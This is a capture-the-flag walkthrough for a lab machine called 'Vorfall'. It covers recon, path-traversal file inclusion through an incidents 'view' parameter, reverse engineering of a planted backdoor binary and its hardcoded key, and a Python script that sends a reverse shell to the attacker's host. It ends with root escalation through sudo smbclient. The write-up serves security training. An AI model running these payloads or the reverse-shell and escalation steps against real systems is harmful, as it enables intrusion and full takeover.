




# Vorfall


## Recon
At the beginning, I used nmap with the following parameters. I found only ports 22, 80, 139, 445 (smb), and 2385.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/vorfall]
└──╼ $sudo nmap -sSVC -Pn -T5 172.16.0.70
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a6:de:8a:3b:84:00:cb:1c:46:aa:ec:36:05:1e:6c:d1 (ECDSA)
|_  256 ac:38:30:fb:d9:93:8b:80:d9:ae:d8:c4:2e:ee:c9:08 (ED25519)
80/tcp   open  http        Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Vorfall
|_http-server-header: Apache/2.4.52 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
2385/tcp open  sd-data?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    Invalid key
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2385-TCP:V=7.94SVN%I=7%D=1/30%Time=679B7929%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,C,"Invalid\x20key\n")%r(GetRequest,C,"Invalid\x20key\n")%
SF:r(HTTPOptions,C,"Invalid\x20key\n")%r(RTSPRequest,C,"Invalid\x20key\n")
SF:%r(RPCCheck,C,"Invalid\x20key\n")%r(DNSVersionBindReqTCP,C,"Invalid\x20
SF:key\n")%r(DNSStatusRequestTCP,C,"Invalid\x20key\n")%r(Help,C,"Invalid\x
SF:20key\n")%r(SSLSessionReq,C,"Invalid\x20key\n")%r(TerminalServerCookie,
SF:C,"Invalid\x20key\n")%r(TLSSessionReq,C,"Invalid\x20key\n")%r(Kerberos,
SF:C,"Invalid\x20key\n")%r(SMBProgNeg,C,"Invalid\x20key\n")%r(X11Probe,C,"
SF:Invalid\x20key\n")%r(FourOhFourRequest,C,"Invalid\x20key\n")%r(LPDStrin
SF:g,C,"Invalid\x20key\n")%r(LDAPSearchReq,C,"Invalid\x20key\n")%r(LDAPBin
SF:dReq,C,"Invalid\x20key\n")%r(SIPOptions,C,"Invalid\x20key\n")%r(LANDesk
SF:-RC,C,"Invalid\x20key\n")%r(TerminalServer,C,"Invalid\x20key\n")%r(NCP,
SF:C,"Invalid\x20key\n")%r(NotesRPC,C,"Invalid\x20key\n")%r(JavaRMI,C,"Inv
SF:alid\x20key\n")%r(WMSRequest,C,"Invalid\x20key\n")%r(oracle-tns,C,"Inva
SF:lid\x20key\n")%r(ms-sql-s,C,"Invalid\x20key\n")%r(afp,C,"Invalid\x20key
SF:\n")%r(giop,C,"Invalid\x20key\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: IP-172-16-0-70, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -11s
| smb2-time: 
|   date: 2025-01-30T13:08:04
|_  start_date: N/A
```

The first thing I did was a recon on SMB. But I did not find any shares. I also discovered that the version of SMB is vulnerable to SambaCry, but there is no shared folder. Link to [CVE-2017-7494](https://github.com/vulhub/vulhub/blob/master/samba/CVE-2017-7494/README.md) and
[sambacry-rce-exploit-lucideus-research](https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c)

Next, let's recon the web application.
```bash
┌─[✗]─[ribeirin@parrot]─[~/Documents/machines/hackingclub/vorfall]
└──╼ $whatweb http://172.16.0.70
http://172.16.0.70 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.16.0.70], Script, Title[Vorfall], X-UA-Compatible[IE=edge]
```

I found two directories using FFuf:
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/vorfall]
└──╼ $ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://172.16.0.70/FUZZ -t 100 -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.0.70/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

login                   [Status: 200, Size: 3486, Words: 1095, Lines: 71, Duration: 181ms]
incidents               [Status: 302, Size: 4818, Words: 1861, Lines: 76, Duration: 150ms]
:: Progress: [107982/107982] :: Job [1/1] :: 660 req/sec :: Duration: [0:02:52] :: Errors: 0 ::
```

## Exploitation
The first thing I did was attempt an SQL Injection on `/login`, but it is not vulnerable. Then, with Burp Suite open, I navigated to the incidents page, and we had a redirect. By examining the Content-Type and rendering the view from the response, I discovered that we can access the dashboard from Incidents. Additionally, when we make the GET request, we see a parameter ?view= that seems to reference a file from the internal directory. We can try a LFI (Local File Inclusion). 



These requests return the following `<pre>` tags:
```
GET /incidents?view=sqli-details.txt HTTP/1.1
<pre>
    SQL injection attack on login page
    FilePath: /var/www/html/app/controllers/LoginController.php
</pre>

GET /incidents?view=malware-details.txt HTTP/1.1
<pre>
    Support ran the malware stored on the share system
    FilePath: /home/share/smbuser/firefox
</pre>

GET /incidents?view=brute-force-details.txt HTTP/1.1
<pre>
    Brute force attack on login page 
    FilePath: /var/www/html/app/controllers/LoginController.php
</pre>
```

We can test an LFI (Local File Inclusion): ```GET /incidents?view=../../../../../../../../../etc/passwd HTTP/1.1```. It works. I tested some paths to find interesting files, but I couldn't find anything useful. So, let's test the files discovered above.
```
GET /incidents?view=../../../../../../../../../var/www/html/app/controllers/LoginController.php HTTP/1.1
<pre><?php
use app\models\User;

if(isset($_POST['username']) && isset($_POST['password']))
{
    $user = new User;

    $result = $user->find('username',$_POST['username']);
    if($result && $result->password == $_POST['password'])
    {
        $_SESSION['auth'] = True;
        return header('Location: /incidents');
    }
}

require '../app/views/login.php';</pre>
```
```
GET /incidents?view=../../../../../../../../../var/www/html/app/controllers/IncidentsController.php HTTP/1.1
<pre><?php

if(!$_SESSION['auth'])
{
    set_flash('Access Denied!');
    header('Location: /');
}

if(isset($_GET['view']) && !empty($_GET['view']))
{
    $file = file_get_contents("../incidents/{$_GET['view']}");
    return require "../app/views/reports.php";
}

require '../app/views/incidents.php';</pre>
```

Below, we have a binary file. The incidents dashboard indicates that it is malware (malware-details.txt). So, we can perform reverse engineering to investigate it.
```
GET /incidents?view=../../../../../../home/share/smbuser/firefox
```
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/vorfall]
└──╼ $curl 'http://172.16.0.70/incidents?view=../../../../../../home/share/smbuser/firefox' -o malware
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/vorfall]
└──╼ $file malware 
malware2: data
```
We need to remove the HTML part.


Opening GHidra and analyzing the main function of the malware, we have:
```c
undefined8 main(void)
{
  int iVar1;
  int iVar2;
  __pid_t _Var3;
  size_t sVar4;
  undefined8 uVar5;
  size_t sVar6;
  FILE *__stream;
  char *pcVar7;
  ssize_t sVar8;
  long in_FS_OFFSET;
  sockaddr local_1048;
  undefined8 local_1034;
  undefined4 local_102c;
  undefined local_1028;
  undefined8 local_1027;
  undefined4 local_101f;
  undefined2 local_101b;
  undefined local_1019;
  char local_1018 [4104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  
  // Setting up an authentication string (password) in the format of an encoded string
  local_1027 = 0x723030646b636162;  // r00dkcab -> little-endian (bytes reversed in memory) = backd00r
  local_101f = 0x33326b32;          // 32k2 -> little-endian (bytes reversed in memory) = 2k23
  local_101b = 0x5f40;              // @_ -> little-endian (bytes reversed in memory) = _@
  local_1019 = 0;                   // null
  
  sVar4 = strlen((char *)&local_1027);
  
  // Creates a TCP/IP socket
  iVar1 = socket(2, 1, 0);  // AF_INET (IPv4), SOCK_STREAM (TCP), protocol 0 (IP)
  if (iVar1 < 0) {
    perror("socket");
    uVar5 = 0xffffffff; 
  }
  else {
    // Configures the server's address and port
    local_1048.sa_family = 2;  // AF_INET (IPv4)
    local_1048.sa_data._0_2_ = htons(0x951);  // Port 2385 (0x951 in hexadecimal)
    local_1048.sa_data[2] = '\0';
    local_1048.sa_data[3] = '\0';
    local_1048.sa_data[4] = '\0';
    local_1048.sa_data[5] = '\0';
    
    // Binds the socket to the address and port
    iVar2 = bind(iVar1, &local_1048, 0x10);
    if (iVar2 < 0) {
      perror("bind");
      uVar5 = 0xffffffff;
    }
    else {
      // Listens for incoming connections, allowing up to 5 pending connections
      iVar2 = listen(iVar1, 5);
      if (iVar2 < 0) {
        perror("listen");
        uVar5 = 0xffffffff;
      }
      else {
        signal(0x11, (__sighandler_t)0x1);
        
        do {
          // Accepts a connection from a client
          iVar2 = accept(iVar1, (sockaddr *)0x0, (socklen_t *)0x0);
          if (iVar2 < 0) {
            perror("accept");
            uVar5 = 0xffffffff;
            goto LAB_00101653;
          }
          
          // Creates a child process to handle the connection
          _Var3 = fork();
          if (_Var3 < 0) {
            perror("fork");
            uVar5 = 0xffffffff; 
            goto LAB_00101653;
          }
        } while (_Var3 == 0); 
        
        // Loop to receive commands from the client
        while( true ) {
          // Receives data from the client
          sVar8 = recv(iVar2, local_1018, 0x1000, 0);
          if ((int)sVar8 < 1) break;
          
          local_1018[(int)sVar8] = '\0';
          
          // Checks if the received command starts with the authentication password
          iVar1 = strncmp(local_1018, (char *)&local_1027, (long)(int)sVar4);
          if (iVar1 == 0) {
            // Executes the command after the password using popen
            __stream = popen(local_1018 + (int)sVar4, "r");
            if (__stream == (FILE *)0x0) {
              perror("popen");
              uVar5 = 0xffffffff;
              goto LAB_00101653;
            }
            
            while (pcVar7 = fgets(local_1018, 0x1000, __stream), pcVar7 != (char *)0x0) {
              sVar6 = strlen(local_1018);
              send(iVar2, local_1018, sVar6, 0);
            }
            
            pclose(__stream);
          }
          else {
            local_1034 = 0x2064696c61766e49;
            local_102c = 0xa79656b;
            local_1028 = 0;
            sVar6 = strlen((char *)&local_1034);
            send(iVar2, &local_1034, sVar6, 0);
          }
        }
        uVar5 = 0;
      }
    }
  }
  
LAB_00101653:
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar5;
  }
  
  __stack_chk_fail();
}
```

This malware opens port 2385. All payload requests, containing the secret + command, are executed as commands. It’s a RCE (Remote Code Execution). We can create a Python script to exploit this RCE:
```python
import socket

host = "172.16.0.70"
port = 2385

key = "backd00r2k23@_"

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    shell = "/bin/bash -c 'sh -i >& /dev/tcp/10.0.10.235/4444 0>&1'"
    payload = f"{key} {shell}"
    
    s.sendall(payload.encode())

    res = s.recv(1024).decode()
    print(res)
except Exception as e:
    print(f"An error occurred: {e}")
finally:
    s.close()
```

Once the payload is sent, just run nc to receive the reverse shell! :D

## Post exploitation
In the sudo -l command, we see that smbclient can be executed with sudo permissions.
```bash
support@ip-172-16-0-70:/home/share/smbuser$ sudo -l
Matching Defaults entries for support on ip-172-16-0-70:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User support may run the following commands on ip-172-16-0-70:
    (ALL : ALL) NOPASSWD: /usr/bin/smbclient *
```

Looking at [GTFobins](https://gtfobins.github.io/gtfobins/smbclient/) we can escalate privileges by connecting to our smb server and executing /bin/bash. There are various ways to set up an SMB server, but I’ll use `impacket-smbserver`.

On my machine:
```bash
┌─[ribeirin@parrot]─[/tmp/smb]
└──╼ $sudo impacket-smbserver share /tmp/smb/ -smb2
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the machine with sudo permissions:
```bash
support@ip-172-16-0-70:/home/share/smbuser$ sudo smbclient '\\10.0.10.235\share'
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> !/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

And voilà! We have root user access! :)